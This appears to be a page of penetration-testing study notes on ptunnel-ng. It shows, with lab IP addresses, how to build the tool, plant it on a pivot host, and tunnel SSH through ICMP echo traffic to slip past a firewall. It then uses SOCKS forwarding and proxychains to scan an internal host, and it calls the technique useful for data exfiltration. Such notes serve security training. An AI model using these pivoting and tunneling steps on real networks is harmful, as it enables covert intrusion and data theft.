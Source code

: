 ## ptunnel-ng 


ICMP tunneling encapsulates your traffic within ICMP packets containing echo requests and responses. ICMP tunneling would only work when ping responses are permitted within a firewalled network. When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.


![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)


### Setting Up & Using ptunnel-ng
```shell
$ git clone https://github.com/utoni/ptunnel-ng.git

# Building Ptunnel-ng with Autogen.sh
$ sudo ./autogen.sh


# or

sudo apt install ptunnel
which ptunnel  
```

### Transferring Ptunnel-ng to the Pivot Host

```shell
$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

### Starting the ptunnel-ng Server on the Target Host

```shell
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22
```

### Connecting to ptunnel-ng Server from Attack Host

```shell
$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

### Tunneling an SSH connection through an ICMP Tunnel
```
$ ssh -p2222 -lubuntu 127.0.0.1

```
### Enabling Dynamic Port Forwarding over SSH
```
$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```

### Proxychaining through the ICMP Tunnel
```
$ proxychains nmap -sV -sT 172.16.5.19 -p3389
```
